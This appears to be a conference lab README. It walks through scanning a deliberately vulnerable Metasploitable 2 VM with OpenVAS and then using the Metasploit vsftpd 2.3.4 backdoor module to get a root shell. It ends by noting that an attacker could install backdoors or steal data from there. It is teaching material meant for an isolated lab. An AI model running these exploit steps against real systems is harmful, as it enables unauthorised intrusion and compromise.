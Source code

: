 # RSSC19-OpenVAS-Lab

## Prerequisites

In order to execute this lab, there are a few things you will need to get started.
1. Installation of Metasploitable 2 VM as an attack target
   * This can be downloaded here: https://sourceforge.net/projects/metasploitable/files/Metasploitable2/
   * This lab will not go into how to register the download into your hypervisor, but many tutorials are available online
2. Kali Linux installed to attack the target host
3. Both machines should be connected to the same network
   * **DO NOT** expose the Metasploitable VM to untrusted networks, only your attack host should be able to access the target
4. For this lab we're going to use the IP 192.168.100.10 for the Metasploit target and 192.168.100.11 for the Kali console. Replace these IPs in the instructions with your own if using different ones.

## Attack Execution

Here we will walk through the process of using OpenVAS to scan a host and determine its vulnerabilities.

### Installation of OpenVAS - **SKIP THIS SECTION IF YOU'RE AT THE RSSC19 CONFERENCE, IT HAS ALREADY BEEN DONE FOR YOU**
1. On your Kali installation, open a terminal
2. Install OpenVAS using apt.

```bash
apt install openvas -y
```

3. Once installed, run the setup utility. This allows OpenVAS to start downloading vulnerability information and perform required setup tasks.

```bash
openvas-setup
```

4. This process will take some time to complete. When it's finished, it will print information on how to connect to the service, including the default admin password, which is randomly generated.
`image goes here`

### Login to OpenVAS and Execute Scan

Now we will use OpenVAS to perform a scan against our target host.

1. Launch Firefox (or your preferred web browser) and navigate to https://127.0.0.1:9392
2. Login with the username `admin` and your password.
   * If you are following this exercise at RSSC19, the admin password is `RSSC19`
   * If you are following this exercise at home, you will need to get your default admin password from the steps in the previous section.
3. Once logged in, click `Scans`, then `Tasks` in the fly-down menu

`image goes here`

4. Click the purple `Wizard` icon in the top-left corner

`image goes here`

5. Enter the IP address of the Metasploit VM
   * At RSSC19, the IP is `192.168.100.10`
6. Click `Start Scan`
7. This will take some time to complete. If you are at RSSC19, you can move on to the next section, as a scan has already been run previously and the results are already available

### Reviewing the Results and Finding Vulnerabilities to Exploit

Here we will look at the scan results to find vulnerabilities to exploit

1. Click on `Scans` then `Results`
2. Sort by Severity by clicking on the `Severity` header in the Vulnerability table
   * You may need to click this twice to have it sort in descending order
3. Review some of the vulnerabilities on this page that are of `High` Severity. You can click on the name of the vulnerability to get more detail.
4. Find the vulnerability titled `vsftpd Compromised Source Packages Backdoor Vulnerability` and click on it for more information
   * Note: There may be more than one of these, select the one that shows a Location of `21/tcp`
5. We can learn from this page that there is a backdoor vulnerabillity in this FTP service that can be exploited.

### Finding and Running the Exploit

1. Open a terminal and launch the metasplpoit console, which is used to find vulnerabilities and execute their exploits

```bash
msfconsole
```

2. Search for any exploits related to the `vsftpd` service we discovered vulnerabilities for in the previous section

```bash
search vsftpd
```

3. There is one exploit available, and it is for `Backdoor Command Execution`, which is the vulnerability we found in OpenVAS. Let's select the exploit

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
```

4. Review the options available for the exploit

```bash
show options
```

5. RPORT is already set to 21, which is correct based on the OpenVAS result showing the vulnerability on that port. We need to set the target IP though, which is the Metasploitable VM.

```bash
set RHOSTS 192.168.100.10
```

6. Now that all the required options are set, run the exploit

```bash
run
```

7. If successful, this should grant you a root shell to the target box. To confirm, run the following commands to verify hostname, IP, and logged in user of your remote shell

```bash
ip a
hostname
whoami
```
   * Notice the IP address 192.168.100.10 is listed, which belongs to our target host, and the hostname is metasploitable, as expected. The result of the `whoami` command should be `root`, indicating your root access.
   
8. From here you have full control of the target and you can perform any commands you wish, such as installing backdoors for access later, malware, obtaining sensitive information on the filesystem, etc.

# Conclusion

we hope this has been useful in seeing the process of scanning a target system for exploitable vulnerabilities, determining which are exploitable, finding the exploits, and executing them to gain access to a target host. It is a good idea to run vulnerability scanners like this in your own environment to determine where your weaknesses are so you can correct them before a malicious actor finds them instead.
